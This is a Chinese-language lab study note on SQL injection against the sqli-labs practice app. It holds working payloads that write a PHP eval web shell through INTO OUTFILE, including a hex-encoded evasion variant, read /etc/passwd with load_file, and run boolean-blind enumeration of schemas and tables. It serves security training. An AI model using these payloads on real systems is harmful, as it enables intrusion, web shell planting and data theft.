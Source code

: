 ```
http://192.168.3.6/Less-1/?id=0' union select null,null,'<?php @eval($_POST['Rj45']);?>' into outfile '/tmp/Rj45.php' -- -

#推荐进行十六进制编码
http://192.168.3.6/Less-1/?id=0' union select null,null,0x273C3F70687020406576616C28245F504F53545B27526A3435275D293B3F3E27 into outfile  '/tmp/Rj45.php' -- -

```

![image](004_第四周—数据库系统功能相关学习/Image_012-1567178982004.jpg)

读文件

```
http://192.168.3.6/Less-1/?id=0' union select 0,load_file(''/tmp/Rj45.php'),load_file('/etc/passwd')-- -
```

![image](004_第四周—数据库系统功能相关学习/Image_014-1567178982004.jpg)



布尔盲注：

![image](004_第四周—数据库系统功能相关学习/Image_015-1567178982004.jpg)

```
注入点同上
#数据库基本信息
http://192.168.3.6/Less-5/?id=1' and ord(substr((database()),1,1))=ascii('a')%23

#数据库
http://192.168.3.6/Less-5/?id=1' and ord(substr((select schema_name from information_schema.schemata limit 0,1),1,1))=ascii('a') %23

#数据表

http://192.168.3.6/Less-5/?id=1' and ord(substr((select table_name from information_schema.tables limit 0,1),1,1))=ascii('a') where table_schema=database %23

#数据列

```